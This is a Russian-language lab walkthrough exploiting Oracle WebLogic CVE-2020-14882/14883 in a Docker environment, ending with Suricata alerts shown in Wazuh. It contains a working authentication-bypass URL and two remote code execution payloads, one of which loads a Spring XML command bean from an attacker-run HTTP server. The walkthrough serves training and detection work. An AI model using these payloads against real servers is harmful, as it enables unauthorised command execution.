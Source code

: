 # CVE-2020-14882/3

Oracle WebLogic Server — ведущий в отрасли сервер приложений для создания корпоративных приложений с использованием стандартов Java EE.&#x20;

CVE-2020-14882 позволяет пользователям обходить аутентификацию в компоненте консоли администратора, а CVE-2020-14883 позволяет аутентифицированному пользователю выполнять любую команду в этой консоли.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:7001 будет доступна страница входа в консоль администратора

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Для обхода аутентификации и реализации CVE-2020-14882 вставьте соответствующий URL в поисковую строку&#x20;

```
http://ваш-ip:7001/console/css/%252e%252e%252fconsole.portal
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

После реализации уязвимости нам не хватает привилегий для загрузки файлов

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

#### Метод 1

Обойти это можно, вставив соответствующий URL в поисковую строку с полезно нагрузкой "touch /tmp/success1"

```
http://ваш-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

#### Метод 2

Выполнить удаленную команду можно с помощью обращения к .xml файлу, содержащему внутри себя полезную нагрузку

Для этого вставьте следующее содержимое в ваш файл и сохраните его

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

Затем с помощью Python3 поднимаем http-сервер на удаленной машине с помощью команды `python3 -m http.server <port>`&#x20;

Затем вставляем следующий URL в адресную строку

```
http://ваш-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://удаленный-ip:порт/rce.xml")
```

После отправки будет выполнено содержимое .xml файла, в данном случае будет создан файл /tmp/success2

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

